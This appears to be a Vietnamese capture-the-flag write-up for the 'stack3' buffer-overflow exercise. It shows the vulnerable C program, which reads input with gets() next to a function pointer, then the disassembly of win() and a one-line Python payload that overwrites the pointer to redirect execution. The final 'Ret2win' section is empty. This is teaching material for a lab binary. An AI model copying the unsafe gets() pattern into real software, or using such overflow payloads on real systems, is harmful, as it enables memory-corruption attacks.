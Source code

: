 # stack3

## Description

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>
 
void win()
{
  printf("code flow successfully changedn");
}
 
int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];
 
  fp = 0;
 
  gets(buffer);
 
  if(fp) {
      printf("calling function pointer, jumping to 0x%08xn", fp);
      fp();
  }
}
```

hàm main()

![main](main.png)

Bài này cũng tương tự các bài trước, ta chỉ cần tìm địa chỉ của hàm win rồi tìm cách gán cho biến fp.

```ASM (Intel syntax)
0x08048424 <+0>:     push   ebp    
0x08048425 <+1>:     mov    ebp,esp    
0x08048427 <+3>:     sub    esp,0x18    
0x0804842a <+6>:     mov    DWORD PTR [esp],0x8048540    
0x08048431 <+13>:    call   0x8048360 <puts@plt>    
0x08048436 <+18>:    leave      
0x08048437 <+19>:    ret
```

Ta có địa chỉ hàm win tại `0x08048424`

## Solution

### ghi đè fp

payload:`python -c 'print "a"*64+"\x24\x84\x04\x08"' | ./stack3`

![fp](fp.png)

### Ret2win

